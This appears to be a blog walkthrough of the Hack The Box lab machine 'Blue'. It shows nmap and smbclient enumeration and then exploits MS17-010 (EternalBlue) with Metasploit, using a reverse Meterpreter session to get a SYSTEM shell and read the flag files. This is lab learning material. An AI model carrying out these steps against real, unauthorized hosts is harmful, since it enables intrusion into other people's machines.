 ```yaml
---
title: "Blue | HackTheBox Walkthrough"
date: 2025-06-10
excerpt: Walkthrough of HTB’s Blue, covering SMB enumeration, null sessions, and EternalBlue (MS17-010) exploitation.
categories:
  - htb 
tags:
  - smb
  - ms17-010
  - metasploit
  - htb
  - walkthrough              
header:
  teaser: /assets/images/htb/blue/blue.png
---
```


<img src="/assets/images/htb/blue/blue.png"
     alt="Alt text describing the image"
     class="align-center"      
     style="max-width: 600px;" />

# Overview
Blue is considered a beginner-friendly box on Hack The Box; its purpose was to teach a valuable lesson about how unpatched systems can become vulnerable. The EternalBlue exploit had severe implications worldwide and has been used in large-scale ransomware attacks. It targeted Windows Server Message Block (SMB) protocol, which is used for shared access to files, printers, and other network resources. Why was it so critical? Windows is one of the most widely used operating systems globally, and this exploit, which leveraged the SMBv1 bug, enabled remote code execution attacks on the target system. 

---

## Full Port Scan and Initial Enumeration

I kicked off with a full TCP port scan using aggressive timing to identify open services quickly.

---

```bash
nmap -sCV -p- <ip> --min-rate=1000 --min-parallelism=1000 -v
```

**Key Flags:**
- `-sC`: runs default Nmap scripts
- `-sV`: enables version detection
- `-p-`: Scans all 65535 ports
- `--min-rate=1000`: sends packets faster than the default rate.
- `--min-parallelism=1000`: sends probes in parallel for speed.

> I only use `--min-rate` and `--min-parallelism` in CTF environments to speed up discovery.

```
Nmap scan report for 10.129.13.80
Host is up (0.067s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-06-10T23:29:27+01:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-06-10T22:29:29
|_  start_date: 2025-06-10T22:12:45
|_clock-skew: mean: -4h40m37s, deviation: 34m37s, median: -4h20m38s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
From the nmap result we have 9 ports that are open which are all MSRPC besides 2.  

Ports `139` and `445` which are used for SMB.  

Looking further down in host script results we see that windows 7 professional is installed, and the computer name is Haris-PC.

---

## SMB Enumeration and Null Session Access

After seeing ports `139` and `445` open, I decided to check for unauthenticated SMB Access:

```bash
smbclient -L \\\\ip\\ -N
```


**Key Flags:**
- `-L`: This option allows you to list the existing shares.
- `-N`: Allows us to try and connect to SMB without credentials (Null Session)  

![](/assets/images/htb/blue/2smb.png)

This tests for null session access, and it worked! I was able to list all the available shares for us.  

To further enumerate share permissions, I ran:

```bash
nmap <ip> -p 445 --script=smb-enum-shares
```
This confirmed that several shares are readable and that SMBv1 was active. This is generally a red flag on older Windows systems due to how easy it is to exploit.

![](/assets/images/htb/blue/3nmapsmb.png)

---

## Finding The Vulnerability: MS17-010

From our Nmap scan, we can see that the target is running Windows 7 Pro, and SMBv1 is enabled. After a quick online search for `Windows 7 Professional 7601 vulnerability`, we were met with several pages, including Microsoft talking about MS17-010, which is the EternalBlue exploit, a remote code execution vulnerability.

![](/assets/images/htb/blue/4googleblue.png)

---

## Exploiting EternalBlue with Metasploit

On our console we are going to type `msfconsole` and once metasploit is up we will search for eternal blue and choose `exploit/windows/smb/ms17_010_eternalblue`

```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
```
Instead of typing the whole exploit path, as I just showed, we could also use the corresponding number. In my case, it was 0

![](/assets/images/htb/blue/5msf.png)

After this, I set up the required options by typing 'options' and filling in the RHOST, LHOST, and LPORT fields.

**key Flags**
- `RHOST`: is the remote host, which in our case is the HTB IP.
- `LHOST` is for our local host.
- `LPORT`: is for the port we want to use

```bash
set RHOST 10.129.13.80
set LHOST <OUR  IP>
set LPORT 4444 # or whichever port you would like to use
```

![](/assets/images/htb/blue/6setup.png)

I ran `check` to verify if the host was vulnerable, and metasploit confirmed it.

```bash
check
```

![](/assets/images/htb/blue/7check.png)

After confirmation, I typed 'run' and the exploit executed. Once we see `meterpreter>` we can type shell to get a shell and we are in as system!

```bash
run
```

![](/assets/images/htb/blue/8run.png)

```bash
shell
```

![](/assets/images/htb/blue/9pwnd.png)

---

## Post-Exploitation and Flags

With full system access I was able to retrieve the user and root flags by going through Haris' folder and administrator.  

Both flags reside on the desktop of each user.

```bash
cd C:\Users
dir

cd Haris\Desktop
type user.txt
```

![](/assets/images/htb/blue/10user.png)

```bash
cd ..\Administrator\Desktop
type root.txt
```

![](/assets/images/htb/blue/11root.png)

Flags obtained:

- `user.txt`: ✔️  
- `root.txt`: ✔️

---

## Key Takeaways
- Always check for null sessions when SMB is open
- SMBv1 is still in use and can be easily exploited, as we have demonstrated.
- Always use multiple tools! In our case, we did use smbclient with nmap to get a better picture early on.

More info: [MS17-010 (CVE-2017-0144)](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)

---


